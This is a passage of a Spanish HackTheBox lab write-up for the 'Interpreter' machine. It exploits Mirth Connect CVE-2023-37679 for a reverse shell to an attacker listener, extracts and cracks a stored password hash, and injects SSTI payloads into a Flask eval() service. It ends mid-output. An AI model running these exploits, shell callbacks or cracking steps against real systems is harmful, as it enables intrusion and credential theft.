






# Interpreter HackTheBox (Intermediate)

## Contexto de la maquina

### Trayectoria Interpreter

<figure><figcaption></figcaption></figure>

### Descripción

**Interpreter** es una máquina Linux orientada a la explotación de aplicaciones empresariales y análisis de código backend en Python. El vector inicial consiste en explotar una vulnerabilidad conocida en **NextGen Mirth Connect**, lo que permite obtener ejecución remota de comandos como usuario del servicio. Posteriormente, la escalada de privilegios se logra mediante una vulnerabilidad de **Server-Side Template Injection (SSTI)** en un servidor Flask que utiliza `eval()` de forma insegura.

**Objetivo del reto**

* Obtener acceso inicial mediante explotación de servicio web vulnerable.
* Escalar a un usuario válido del sistema mediante extracción y crackeo de credenciales.
* Analizar código Python para identificar una vulnerabilidad crítica.
* Obtener privilegios root y recuperar las flags `user.txt` y `root.txt`.

**Tipo de máquina**

* Linux
* Web Application
* Explotación de software vulnerable
* Criptografía (PBKDF2)
* SSTI / Python RCE

**Habilidades y técnicas evaluadas**

* Enumeración de servicios con Nmap
* Explotación de CVE pública
* Análisis de bases de datos locales
* Identificación de hashes PBKDF2-HMAC-SHA256
* Cracking con Hashcat
* Auditoría de código Python
* Explotación avanzada de SSTI
* Escalada a root mediante introspección de clases en Python

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-23 03:51 -0500
Nmap scan report for 10.129.4.244
Host is up (0.039s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 07:eb:d1:b1:61:9a:6f:38:08:e0:1e:3e:5b:61:03:b9 (ECDSA)
|_  256 fc:d5:7a:ca:8c:4f:c1:bd:c7:2f:3a:ef:e1:5e:99:0f (ED25519)
80/tcp   open  http     Jetty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mirth Connect Administrator
443/tcp  open  ssl/http Jetty
|_http-title: Mirth Connect Administrator
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=mirth-connect
| Not valid before: 2025-09-19T12:50:05
|_Not valid after:  2075-09-19T12:50:05
6661/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 184.25 seconds
```

Observaciones importantes:

* **22/tcp** → Servicio SSH activo (OpenSSH 9.2p1).
* **80/tcp y 443/tcp** → Servidor web Jetty.
* **6661/tcp** → Servicio desconocido.
* El sistema operativo identificado es **Linux (Debian)**.

Los puertos más interesantes inicialmente son **80 y 443**, ya que alojan el mismo servicio web (Jetty), pero uno expuesto por HTTP y el otro por HTTPS.

## Análisis del servicio web

Al acceder por `http://<IP>` (puerto 80), la aplicación redirige a HTTPS.

Accediendo por:

```
URL = https://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Observamos un panel de autenticación correspondiente a:

> **Mirth Connect Administrator – NextGen Healthcare**

Esto nos indica que el software en ejecución es **Mirth Connect**, una plataforma de integración HL7 ampliamente utilizada en entornos sanitarios.

Dado que se trata de un software específico y con versión identificable, el siguiente paso lógico es investigar vulnerabilidades asociadas.

## Escalate user mirth

### Explotación – CVE-2023-37679

<figure><figcaption></figcaption></figure>

Tras investigar, identificamos la vulnerabilidad:

> **CVE-2023-37679**\
> Afecta a Mirth Connect 4.4.0

La versión detectada coincide con la vulnerable, por lo que procedemos a buscar un exploit público. Encontramos un repositorio en GitHub que automatiza la explotación.

URL = [CVE-2023-37679 Exploit GitHub](https://github.com/gotr00t0day/NextGen-Mirth-Connect-Exploit)

Clonamos el repositorio y preparamos el entorno:

```shell
git clone https://github.com/gotr00t0day/NextGen-Mirth-Connect-Exploit.git
cd NextGen-Mirth-Connect-Exploit/
python3 -m venv .venv; source .venv/bin/activate
pip install -r requirements.txt
```

### Obtención de reverse shell

Nos ponemos a la escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

Ejecutamos el exploit:

```shell
python3 mirthconnect_exploit.py -t <IP_VICTIM> -p 443 -lh <IP_ATTACKER> -lp <PORT> --exploit
```

Respuesta:

```
   _____  .__         __  .__      __________      _________  
  /     \ |__|_______/  |_|  |__   \______   \____ \_   ___ \ 
 /  \ /  \|  \_  __ \   __\  |  \   |     ___/  _ \/    \  \/ 
/    Y    \  ||  | \/|  | |   Y  \  |    |  (  <_> )     \____
\____|__  /__||__|   |__| |___|  /  |____|   \____/ \______  /
        \/                     \/                          \/ 

Author: c0deninja


[+] Found Mirth Connect Administrator:  https://10.129.4.244 4.4.0

Exploit launched......

Check your reverse shell at 10.10.14.111 7777!!!
```

En nuestra escucha recibimos conexión:

```
listening on [any] 7777 ...
connect to [10.10.14.111] from (UNKNOWN) [10.129.4.244] 58146
whoami
mirth
```

La explotación ha sido exitosa. Tenemos acceso como usuario **mirth**.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user sedric

<figure><figcaption></figcaption></figure>

Una vez obtenida la `reverse shell` como usuario `mirth` y situados en el directorio:

```
/usr/local/mirthconnect
```

procedemos a realizar una enumeración manual del entorno, revisando archivos de configuración y posibles credenciales expuestas.

Durante esta fase, nos llama especialmente la atención el directorio `conf`, y dentro de él el archivo:

```
mirth.properties
```

Al inspeccionarlo encontramos información sensible relevante.

```shell
cat conf/mirth.properties
```

Respuesta:

```
.................................<RESTO DE INFO>...................................
# database credentials
database.username = mirthdb
database.password = MirthPass123!
.................................<RESTO DE INFO>...................................
```

Aquí identificamos claramente credenciales de base de datos almacenadas en texto plano.

El siguiente paso lógico es verificar si existe un servicio de base de datos accesible localmente.

### Identificación del servicio MySQL/MariaDB

Comprobamos los puertos en escucha:

```shell
ss -tuln | grep "3306"
```

Respuesta:

```
tcp   LISTEN 0      80         127.0.0.1:3306       0.0.0.0:*
```

Observamos que el puerto `3306` está escuchando en `127.0.0.1`, lo que indica que existe una instancia de **MySQL/MariaDB** accesible únicamente desde localhost.

Dado que ya tenemos credenciales, procedemos a conectarnos:

```shell
mysql -h localhost -u mirthdb -pMirthPass123!
```

Respuesta:

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 42
Server version: 10.11.14-MariaDB-0+deb12u2 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

La conexión se establece correctamente, por lo que iniciamos la fase de enumeración interna de bases de datos y tablas.

### Enumeración de bases de datos

Listamos las bases disponibles:

```mysql
show databases;
```

Respuesta:

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mc_bdd_prod        |
+--------------------+
2 rows in set (0.001 sec)
```

La base de datos relevante es `mc_bdd_prod`, ya que su nombre sugiere que contiene información de producción asociada a la aplicación.

Accedemos a ella y enumeramos sus tablas:

```mysql
use mc_bdd_prod;
show tables;
```

Respuesta:

```
+-----------------------+
| Tables_in_mc_bdd_prod |
+-----------------------+
| ALERT                 |
| CHANNEL               |
| CHANNEL_GROUP         |
| CODE_TEMPLATE         |
| CODE_TEMPLATE_LIBRARY |
| CONFIGURATION         |
| DEBUGGER_USAGE        |
| D_CHANNELS            |
| D_M1                  |
| D_MA1                 |
| D_MC1                 |
| D_MCM1                |
| D_MM1                 |
| D_MS1                 |
| D_MSQ1                |
| EVENT                 |
| PERSON                |
| PERSON_PASSWORD       |
| PERSON_PREFERENCE     |
| SCHEMA_INFO           |
| SCRIPT                |
+-----------------------+
21 rows in set (0.000 sec)
```

Entre las múltiples tablas existentes, destacan especialmente:

* `PERSON`
* `PERSON_PASSWORD`

Por convención y estructura, estas tablas suelen almacenar información de usuarios y credenciales.

### Extracción de información sensible

Consultamos su contenido:

```mysql
select * from PERSON_PASSWORD;
select * from PERSON;
```

Respuesta:

```
+-----------+----------------------------------------------------------+---------------------+
| PERSON_ID | PASSWORD                                                 | PASSWORD_DATE       |
+-----------+----------------------------------------------------------+---------------------+
|         2 | u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w== | 2025-09-19 09:22:28 |
+-----------+----------------------------------------------------------+---------------------+
1 row in set (0.001 sec)

+----+----------+-----------+----------+--------------+----------+-------+-------------+-------------+---------------------+--------------------+--------------+------------------+-----------+------+---------------+----------------+-------------+
| ID | USERNAME | FIRSTNAME | LASTNAME | ORGANIZATION | INDUSTRY | EMAIL | PHONENUMBER | DESCRIPTION | LAST_LOGIN          | GRACE_PERIOD_START | STRIKE_COUNT | LAST_STRIKE_TIME | LOGGED_IN | ROLE | COUNTRY       | STATETERRITORY | USERCONSENT |
+----+----------+-----------+----------+--------------+----------+-------+-------------+-------------+---------------------+--------------------+--------------+------------------+-----------+------+---------------+----------------+-------------+
|  2 | sedric   |           |          |              | NULL     |       |             |             | 2025-09-21 17:56:02 | NULL               |            0 | NULL             |           | NULL | United States | NULL           |           0 |
+----+----------+-----------+----------+--------------+----------+-------+-------------+-------------+---------------------+--------------------+--------------+------------------+-----------+------+---------------+----------------+-------------+
1 row in set (0.000 sec)
```

Podemos correlacionar el `PERSON_ID` con la tabla `PERSON`, determinando que el hash almacenado corresponde al usuario:

```
sedric
```

El siguiente paso consiste en identificar correctamente el algoritmo y formato del hash.

## Análisis del hash

El valor almacenado está codificado en **Base64**, por lo que lo primero es decodificarlo y representarlo en formato hexadecimal para analizar su estructura:

```shell
echo 'u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==' | base64 -d | xxd -p
```

Respuesta:

```
bbff8b0413949da762c8506c30ea080cf2db511d2b939f641243d4d7b8ad76b55603f90b32ddf0fb
```

Observaciones técnicas:

* La longitud es superior a la de un SHA256 simple (32 bytes).
* Esto indica la presencia de un `salt`.
* La estructura coincide con `salt + hash`.

Teniendo en cuenta que el sistema ejecuta **Mirth Connect 4.4.0**, se sabe que las contraseñas se almacenan utilizando:

```
PBKDF2-HMAC-SHA256
600000 iteraciones
```

Por tanto, ya podemos asumir el formato del hash y proceder a separarlo correctamente.

### Separación del salt y el hash

Dividimos manualmente el valor hexadecimal en:

* Salt → primeros 16 bytes
* Hash derivado → resto

Convertimos cada parte nuevamente a Base64:

```shell
echo bbff8b0413949da7 | xxd -r -p | base64
echo 62c8506c30ea080cf2db511d2b939f641243d4d7b8ad76b55603f90b32ddf0fb | xxd -r -p | base64
```

Respuesta:

```
u/+LBBOUnac=
YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=
```

Eliminamos los caracteres `=` finales para ajustarlo al formato requerido por **hashcat**.

Formato final:

> hash

```
sha256:600000:u/+LBBOUnac:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps
```

Este formato indica:

* Algoritmo: SHA256
* Iteraciones: 600000
* Salt
* Hash derivado

## Cracking con Hashcat

Procedemos a crackearlo utilizando el modo correspondiente a PBKDF2-HMAC-SHA256:

```shell
hashcat -m 10900 hash <WORDLIST>
```

Respuesta:

```
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-haswell-12th Gen Intel(R) Core(TM) i7-12700H, 2931/5862 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (4926 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

sha256:600000:u/+LBBOUnac:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps:snowflake1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:600000:u/+LBBOUnac:YshQbDDqCAzy21EdK5OfZBJD1...zLd8Ps
Time.Started.....: Mon Feb 23 07:37:24 2026 (2 mins, 28 secs)
Time.Estimated...: Mon Feb 23 07:39:52 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:       67 H/s (14.27ms) @ Accel:146 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 9928/14344385 (0.07%)
Rejected.........: 0/9928 (0.00%)
Restore.Point....: 9344/14344385 (0.07%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:599000-599999
Candidate.Engine.: Device Generator
Candidates.#01...: jodete -> pastel
Hardware.Mon.#01.: Util: 93%

Started: Mon Feb 23 07:37:21 2026
Stopped: Mon Feb 23 07:39:54 2026
```

El estado `Cracked` confirma que la contraseña ha sido recuperada correctamente.

Credenciales obtenidas:

```
sedric:snowflake1
```

### Acceso vía SSH

Una vez obtenidas las credenciales en claro (`sedric:snowflake1`), procedemos a validar si son reutilizadas a nivel de sistema.

Intentamos autenticarnos vía SSH:

```shell
ssh sedric@<IP>
```

Metemos como contraseña `snowflake1`...

```
Linux interpreter 6.1.0-43-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.162-1 (2026-02-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Feb 23 07:43:14 2026 from 10.10.14.111
sedric@interpreter:~$ whoami
sedric
```

La autenticación es exitosa, confirmando reutilización de credenciales entre aplicación y sistema operativo.

Procedemos a leer la flag de usuario:

> user.txt

```
889b1c4c5bfe292feecd52a544addd3f
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Si enumeramos un poco el sistema veremos un script interesante en el sistema justamente en `/usr/local/bin/notif.py`, si leemos dicho script veremos lo siguiente:

```python
#!/usr/bin/env python3
"""
Notification server for added patients.
This server listens for XML messages containing patient information and writes formatted notifications to files in /var/secure-health/patients/.
It is designed to be run locally and only accepts requests with preformated data from MirthConnect running on the same machine.
It takes data interpreted from HL7 to XML by MirthConnect and formats it using a safe templating function.
"""
from flask import Flask, request, abort
import re
import uuid
from datetime import datetime
import xml.etree.ElementTree as ET, os

app = Flask(__name__)
USER_DIR = "/var/secure-health/patients/"; os.makedirs(USER_DIR, exist_ok=True)

def template(first, last, sender, ts, dob, gender):
    pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
    for s in [first, last, sender, ts, dob, gender]:
        if not pattern.fullmatch(s):
            return "[INVALID_INPUT]"
    # DOB format is DD/MM/YYYY
    try:
        year_of_birth = int(dob.split('/')[-1])
        if year_of_birth < 1900 or year_of_birth > datetime.now().year:
            return "[INVALID_DOB]"
    except:
        return "[INVALID_DOB]"
    template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
    try:
        return eval(f"f'''{template}'''")
    except Exception as e:
        return f"[EVAL_ERROR] {e}"

@app.route("/addPatient", methods=["POST"])
def receive():
    if request.remote_addr != "127.0.0.1":
        abort(403)
    try:
        xml_text = request.data.decode()
        xml_root = ET.fromstring(xml_text)
    except ET.ParseError:
        return "XML ERROR\n", 400
    patient = xml_root if xml_root.tag=="patient" else xml_root.find("patient")
    if patient is None:
        return "No <patient> tag found\n", 400
    id = uuid.uuid4().hex
    data = {tag: (patient.findtext(tag) or "") for tag in ["firstname","lastname","sender_app","timestamp","birth_date","gender"]}
    notification = template(data["firstname"],data["lastname"],data["sender_app"],data["timestamp"],data["birth_date"],data["gender"])
    path = os.path.join(USER_DIR,f"{id}.txt")
    with open(path,"w") as f:
        f.write(notification+"\n")
    return notification

if __name__=="__main__":
    app.run("127.0.0.1",54321, threaded=True)
```

Al revisar su contenido observamos que se trata de un servidor Flask que escucha en `127.0.0.1:54321` y expone el endpoint:

```
POST /addPatient
```

El servicio:

* Recibe datos en formato XML.
* Extrae información del paciente.
* Genera una notificación formateada.
* La guarda en `/var/secure-health/patients/`.

### Análisis del código

La parte crítica se encuentra en la función `template()`:

```python
template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
try:
    return eval(f"f'''{template}'''")
```

Aquí ocurre lo siguiente:

1. Se construye un string que contiene una expresión entre llaves `{}`.
2. Ese string se pasa a `eval()` como f-string.
3. `eval()` ejecuta cualquier expresión Python contenida dentro de `{}`.

Esto introduce una **Server-Side Template Injection (SSTI)** debido al uso inseguro de:

```python
eval(f"f'''{template}'''")
```

Aunque existe un filtro regex:

```python
pattern = re.compile(r"^[a-zA-Z0-9._'\"(){}=+/]+$")
```

Este filtro:

* Permite `{}` → fundamentales para f-strings.
* Permite `()` → ejecución de funciones.
* Permite `.` → acceso a atributos.
* Permite `_` → acceso a métodos internos.
* Permite `'` y `"` → strings.
* Permite `+` → operaciones aritméticas.

Por lo tanto, el filtro **no bloquea ejecución de código Python**, solo restringe algunos caracteres como espacios o comas.

### Confirmación de SSTI

Probamos una operación aritmética simple:

```shell
wget -qO- \
--header="Content-Type: application/xml" \
--post-data='<patient><firstname>{7+7}</firstname><lastname>a</lastname><sender_app>a</sender_app><timestamp>1</timestamp><birth_date>01/01/2000</birth_date><gender>M</gender></patient>' \
http://127.0.0.1:54321/addPatient
```

Respuesta:

```
Patient 14 a (M), 26 years old, received from a at 1
```

Esto confirma que:

* Las expresiones dentro de `{}` se están evaluando.
* Tenemos ejecución de código Python dentro del contexto del servidor.

### Escalada a introspección de Python

El siguiente paso es determinar qué podemos acceder desde ese contexto.

En Python, todas las clases derivan de `object`. Podemos recorrer la jerarquía interna usando:

```python
().__class__.__mro__[1].__subclasses__()
```

Payload:

```shell
wget -qO- \
--header="Content-Type: application/xml" \
--post-data='<patient><firstname>{().__class__.__mro__.__getitem__(1).__subclasses__()}</firstname><lastname>a</lastname><sender_app>a</sender_app><timestamp>1</timestamp><birth_date>01/01/2000</birth_date><gender>M</gender></patient>' \
http://127.0.0.1:54321/addPatient
```

Respuesta:

```
Patient [<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>, <class 'builtin_function_or_method'>, <class 'callable_iterator'>, <class 'PyCapsule'>, <class 'cell'>, <class 'classmethod_descriptor'>, <class 'classmethod'>, <class 'code'>, <class 'complex'>, <class '_contextvars.Token'>, <class '_contextvars.ContextVar'>, <class '_contextvars.Context'>, <class 'coroutine'>, <class 'dict_items'>, <class 'dict_itemiterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_keys'>, <class 'mappingproxy'>, <class 'dict_reverseitemiterator'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_values'>, <class 'dict'>, <class 'ellipsis'>, <class 'enumerate'>, <class 'filter'>, <class 'float'>, <class 'frame'>, <class 'frozenset'>, <class 'function'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'instancemethod'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'list'>, <class 'longrange_iterator'>, <class 'int'>, <class 'map'>, <class 'member_descriptor'>, <class 'memoryview'>, <class 'method_descriptor'>, <class 'method'>, <class 'moduledef'>, <class 'module'>, <class 'odict_iterator'>, <class 'pickle.PickleBuffer'>, <class 'property'>, <class 'range_iterator'>, <class 'range'>, <class 'reversed'>, <class 'symtable entry'>, <class 'iterator'>, <class 'set_iterator'>, <class 'set'>, <class 'slice'>, <class 'staticmethod'>, <class 'stderrprinter'>, <class 'super'>, <class 'traceback'>, <class 'tuple_iterator'>, <class 'tuple'>, <class 'str_iterator'>, <class 'str'>, <class 'wrapper_descriptor'>, <class 'zip'>, <class 'types.GenericAlias'>, <class 'anext_awaitable'>, <class 'async_generator_asend'>, <class 'async_generator_athrow'>, <class 'async_generator_wrapped_value'>, <class 'Token.MISSING'>, <class 'coroutine_wrapper'>, <class 'generic_alias_iterator'>, <class 'items'>, <class 'keys'>, <class 'values'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'hamt'>, <class 'InterpreterID'>, <class 'managedbuffer'>, <class 'memory_iterator'>, <class 'method-wrapper'>, <class 'types.SimpleNamespace'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'str_ascii_iterator'>, <class 'types.UnionType'>, <class 'weakref.CallableProxyType'>, <class 'weakref.ProxyType'>, <class 'weakref.ReferenceType'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_io._IOBase'>, <class '_io.IncrementalNewlineDecoder'>, <class '_io._BytesIOBuffer'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external.NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc._abc_data'>, <class 'abc.ABC'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'collections.abc.Iterable'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.pairwise'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'operator.attrgetter'>, <class 'operator.itemgetter'>, <class 'operator.methodcaller'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class '_collections._tuplegetter'>, <class 'collections._Link'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.KeyWrapper'>, <class 'functools._lru_list_elem'>, <class 'functools.partialmethod'>, <class 'functools.singledispatchmethod'>, <class 'functools.cached_property'>, <class 'enum.nonmember'>, <class 'enum.member'>, <class 'enum._auto_null'>, <class 'enum.auto'>, <class 'enum._proto_member'>, <enum 'Enum'>, <class 'enum.verify'>, <class 're.Pattern'>, <class 're.Match'>, <class '_sre.SRE_Scanner'>, <class 're._parser.State'>, <class 're._parser.SubPattern'>, <class 're._parser.Tokenizer'>, <class 're.Scanner'>, <class 'string.Template'>, <class 'string.Formatter'>, <class 'contextlib.ContextDecorator'>, <class 'contextlib.AsyncContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class 'typing._Final'>, <class 'typing._Immutable'>, <class 'typing._NotIterable'>, typing.Any, <class 'typing._PickleUsingNameMixin'>, <class 